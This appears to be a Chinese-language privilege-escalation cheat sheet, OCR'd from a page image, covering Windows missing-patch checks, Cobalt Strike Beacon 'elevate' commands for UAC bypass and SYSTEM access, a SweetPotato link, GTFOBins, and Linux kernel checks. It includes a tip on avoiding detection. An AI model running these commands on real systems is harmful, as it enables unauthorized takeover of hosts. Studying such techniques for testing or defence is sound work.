 ```bash
systeminfo > temp.txt&(for %i in (KB3000061 KB3011780 KB3057191 KB3143141 KB4013389) do @type temp.txt|@find /i  "%i"|| @echo %i Not Installed!)&del /f /q /a temp.txt
```

补丁号根据自己需求加，利用的话`MSF`中有相关EXP或者自行搜索（`Github`， `searchsploit` ）

### 利用Cobalt Strike提权

Cobalt Strike 附带了一些绕过 `UAC` 的攻击，但如果当前用户不是管理员(Administrator)， 攻击会失效。

Beacon默认回连时间（心跳时间）为60秒，为了更快的渗透修改成0秒，交互模式。

```bash
sleep 0	
#心跳时间设快了容易被发现，实际攻击不建议设太快

shell whoami
```

**如果你有一个Administrator权限的Beacon，用以下命令提升到SYSTEM权限：**

这个需要创建服务

```bash
elevate svc-exe test1（你的监听器）
```

**如果你是普通`本地`用户权限，用以下命令提升到高权限**

注意：如果是`域`用户会弹出认证窗口，不能提权

```bash
elevate uac-token-duplication test1
```

然后可以用上边的`svc-exe`提权到SYSTEM

### C#版的烂土豆（来自QAX零队）

项目地址：https://github.com/uknowsec/SweetPotato

能在webshell下执行命令的版本 

## Linux提权

**GTFOBins**（sudo滥用和SUID提权命令查询）https://gtfobins.github.io/

### 密码复用

 如数据库、后台 web 密码，可能就是 root 密码

### 内核溢出漏洞提权

**信息收集**

```bash
uname -a	#查看系统版本内核信息
```
